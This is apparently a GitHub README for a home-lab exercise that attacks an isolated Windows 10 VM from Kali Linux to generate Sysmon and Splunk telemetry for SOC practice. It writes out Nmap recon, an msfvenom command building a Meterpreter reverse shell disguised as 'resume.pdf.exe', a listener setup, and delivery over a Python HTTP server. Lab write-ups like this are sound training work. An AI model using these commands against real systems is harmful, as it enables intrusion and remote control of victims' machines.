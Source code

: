 # Home Lab Attack Simulation & Telemetry Generation
<p>This project was designed as a simulation of a real-world cyberattack, conducted in a virtual lab environment. Its primary goal is to demonstrate how endpoint telemetry can be generated, collected, and analyzed using widely available tools such as Sysmon and Splunk. This project helped me gain hands-on experience with attacker techniques, logging mechanisms, and security monitoring—all of which are essential for working in a SOC environment.</p>

# Prerequisites
<ul>
  <li>Kali Linux – As the attacker machine</li>
  <li>Windows 10 – As the target machine</li>
  <li>Splunk must be installed on the Windows VM.</li>
  <li>Sysmon must be installed using the Splunk Add-on for Sysmon and configured on the Windows VM to generate detailed logs</li>
</ul>

# Simulation
<p>To set up the lab, I used VirtualBox to run two virtual machines: Kali Linux (as the attacker) and Windows 10 (as the target). Both VMs were configured to use an "Internal Network" mode in VirtualBox to ensure isolated communication within the same virtual network. This configuration prevents interaction with the outside internet while allowing both machines to communicate securely.</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/%F0%9F%9B%A1%EF%B8%8F%20Home%20Lab%20Attack%20Simulation%20&%20Telemetry%20Generation%20-%20visual%20selection.png?raw=true">
</p>

<p>To ensure stable communication and easier referencing, each virtual machine was assigned a static IP address. Kali Linux was configured with an IP address such as 192.168.56.100, while Windows 10 was assigned 192.168.56.110. These IPs fall within the same subnet and enable consistent access throughout the simulation. This setup ensures that tools like Nmap and Metasploit can reliably interact with the Windows VM during reconnaissance and exploitation.</p>

<p>The simulation begins with reconnaissance. Using Kali Linux, I performed a network scan with Nmap to discover open ports and services on the Windows target.</p>
<pre>
  nmap -A 192.168.56.110 -Pn
</pre>
<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Nmap.png?raw=true">
</p>
<ul>
  <p>The scan identified multiple open ports, including:</p>
  <li>135/tcp (Microsoft RPC)</li>
  <li>139/tcp (NetBIOS-SSN)</li>
  <li>445/tcp (Microsoft-DS)</li>
  <li>8000/tcp (Splunkd HTTP interface)</li>
  <li>8089/tcp (Splunkd management port)</li>
</ul>

<p>Next, I used msfvenom to generate a simple Meterpreter reverse shell payload:</p>

<pre>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.100 lport=4444 -f exe -o resume.pdf.exe</pre>

<p>This creates an executable file named resume.pdf.exe that, when executed, will attempt to connect back to the Kali Linux machine on port 4444.</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Msfvenom.png?raw=true">
</p>

<p>I then set up a listener in Metasploit to catch the reverse shell:</p>
<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/msf6%20exploit.png?raw=true">
</p>
<pre>
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.100
set LPORT 4444
exploit
</pre>

<p>To deliver the payload, I hosted it using a Python HTTP server:</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Hosting%20.png?raw=true">
</p>

<pre>python3 -m http.server 9999</pre>

<p>After disabling Windows Defender for this test, I downloaded and executed the payload on the Windows VM.</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/download%20malicious.png?raw=true">
</p>


<p>I confirmed the reverse connection using the following command:</p>
<pre>netstat -anob</pre>

<p>
The result clearly showed an ESTABLISHED connection between the Windows machine and the Kali attacker machine on port 4444, with the process name resume.pdf.exe. This confirmed that the payload had successfully executed and connected back to the attacker:
</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/netstat.png?raw=true">
</p>

<p>To further validate this, I opened Task Manager and found that resume.pdf.exe was indeed running under the expected PID. This allowed me to correlate the netstat entry with a live process</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Taskmgr%201128%20PID.png?raw=true">
</p>

<p>At this point, Sysmon already installed and configured on the Windows machine. began recording detailed logs, including process creation, command-line activity, and network connections. These logs were forwarded to Splunk using a custom inputs.conf configuration.</p>

<p>I created a dedicated Splunk index called endpoint and installed the official Splunk Add-on for Sysmon to normalize event fields. Using Splunk Search Processing Language (SPL), I ran queries:</p>

<pre>index=endpoint resume.pdf.exe EventCode=1116</pre>

<p>
  
</p>

